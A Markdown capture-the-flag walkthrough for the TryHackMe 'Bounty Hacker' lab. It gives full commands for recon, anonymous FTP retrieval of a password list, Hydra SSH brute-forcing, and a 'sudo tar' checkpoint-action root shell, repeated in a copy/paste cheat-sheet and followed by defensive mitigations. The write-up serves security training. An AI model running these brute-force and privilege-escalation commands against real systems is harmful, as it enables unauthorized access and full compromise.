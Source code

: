 # Bounty Hacker — Consolidated Walkthrough

> **Difficulty:** Easy → Medium  
> **Platform:** Linux / Web / Privilege Escalation  
> **Goal:** Capture `user` and `root` flags on the TryHackMe *Bounty Hacker* machine.

---

## Table of Contents

1. [Summary](#summary)
2. [High-level Attack Flow](#high-level-attack-flow)
3. [Prereqs & Tools](#prereqs--tools)
4. [Step-by-step Walkthrough](#step-by-step-walkthrough)
    - [1 — Recon (nmap)](#1---recon-nmap)
    - [2 — Anonymous FTP & files (locks.txt / task.txt)](#2---anonymous-ftp--files-lockstxt--tasktxt)
    - [3 — Web enumeration](#3---web-enumeration)
    - [4 — SSH brute-force using harvested credentials](#4---ssh-brute-force-using-harvested-credentials)
    - [5 — Low-privilege enumeration on shell](#5---low-privilege-enumeration-on-shell)
    - [6 — Privilege escalation via `tar` (GTFOBins pattern)](#6---privilege-escalation-via-tar-gtfobins-pattern)
5. [Cheat-sheet — Commands (copy/paste)](#cheat-sheet---commands-copypaste)
6. [Defensive Notes & Mitigations](#defensive-notes--mitigations)
7. [References](#references)

---

## Summary

This box is a classic beginner-friendly ADJ (web + service) challenge:  
- Discover **anonymous FTP** containing a password list (`locks.txt`) and task hints.  
- Use those passwords to brute-force SSH (Hydra) against discovered usernames.  
- Log in as a low-privilege user, then escalate to root using an allowed `sudo tar` command and a well-known [GTFOBins](https://gtfobins.github.io/) exploitation technique.

---

## High-level Attack Flow

1. **nmap** → Find services (FTP, SSH, HTTP).
2. Connect to **anonymous FTP**, download `locks.txt` and `task.txt`.
3. Enumerate web app, build username list from site content and `task.txt`.
4. Use **hydra** to brute-force SSH usernames with `locks.txt`. Obtain valid user creds.
5. SSH in, run `sudo -l` and enumerate; discover `sudo` allowed for `tar`.
6. Exploit `tar` via GTFOBins technique to spawn root shell and capture `/root/root.txt`.

---

## Prereqs & Tools

- **Attacker box:** Kali / Parrot / Ubuntu
- **Tools:**  
  `nmap`, `ftp`/`lftp`/`curl`, `gobuster` (optional), `hydra` (or `medusa` / `patator`), `ssh`, `socat`/`nc`, `python3` for simple shells, [GTFOBins](https://gtfobins.github.io/) as reference.
- **Wordlists:**  
  `locks.txt` (from FTP), `rockyou.txt` (if needed), small user lists.

---

## Step-by-step Walkthrough

### 1 — Recon (nmap)

Scan for open ports and services:

```bash
nmap -sC -sV -p- -T4 -oA bounty_nmap <TARGET_IP>
```

Look for:
- `21/tcp` — FTP (anonymous likely allowed)
- `22/tcp` — SSH
- `80/tcp` — Web server / info page

---

### 2 — Anonymous FTP & files (locks.txt / task.txt)

Connect to FTP anonymously and list files:

```bash
ftp <TARGET_IP>
# or
ncftpls ftp://<TARGET_IP>/
```

Download the interesting files:

```bash
get locks.txt
get task.txt
```

---

### 3 — Web enumeration

Visit the web page (`http://<TARGET_IP>/`) for candidate usernames.  
Optionally, use `gobuster` to check for hidden paths:

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,html,txt
```

Build `users.txt` from names found on the page and in `task.txt`.

---

### 4 — SSH brute-force using harvested credentials

Brute-force SSH using the password and username lists:

```bash
hydra -L users.txt -P locks.txt ssh://<TARGET_IP> -t 4 -f
```

Hydra will report valid credentials when found.

> **Tip:** Try manual combos from `task.txt` if brute-force is slow.

---

### 5 — Low-privilege enumeration on shell

SSH in with discovered credentials:

```bash
ssh user@<TARGET_IP>
```

Check environment and sudo permissions:

```bash
id
whoami
pwd
ls -la
sudo -l
ps aux
cat /etc/passwd
```

`sudo -l` should show `/usr/bin/tar` allowed as root (NOPASSWD).

---

### 6 — Privilege escalation via `tar` (GTFOBins pattern)

Exploit `tar` for root shell:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

After root shell:

```bash
whoami
cat /root/root.txt
```

---

## Cheat-sheet — Commands (copy/paste)

```bash
# Recon
nmap -sC -sV -p- -T4 -oA bounty_nmap <TARGET_IP>

# FTP (anonymous)
ftp <TARGET_IP>
# username: anonymous  password: <press Enter>
get locks.txt
get task.txt

# Web enumeration (optional)
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -x php,html,txt

# Bruteforce SSH with hydra
hydra -L users.txt -P locks.txt ssh://<TARGET_IP> -t 4 -f

# SSH to target
ssh user@<TARGET_IP>

# On shell: check sudo allowed commands
sudo -l

# If tar is allowed:
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# After root shell:
whoami
cat /root/root.txt
```

---

## Defensive Notes & Mitigations

- **Disable anonymous FTP** or restrict it to safe directories. Remove credential lists.
- **Limit `sudo` usage:** Avoid `NOPASSWD` for powerful binaries. Use wrappers and audit `sudoers`.
- **Harden SSH:** Rate-limit, block brute-force, use key-based auth, monitor failed attempts.
- **File hygiene:** Never store passwords in plaintext on network services.
- **Monitor for suspicious `tar`/GTFOBins usage:** Alert on `--checkpoint-action` or unusual invocations.

---

## References

- “Bounty Hacker Write-up” (InfoSec / Medium repost) — FTP → `locks.txt` → `hydra` → `sudo tar` → root flow.
- GitHub — community repos with example steps and scripts for *Bounty Hacker*.
- GTFOBins — [tar abuse pattern](https://gtfobins.github.io/) for privilege escalation.

---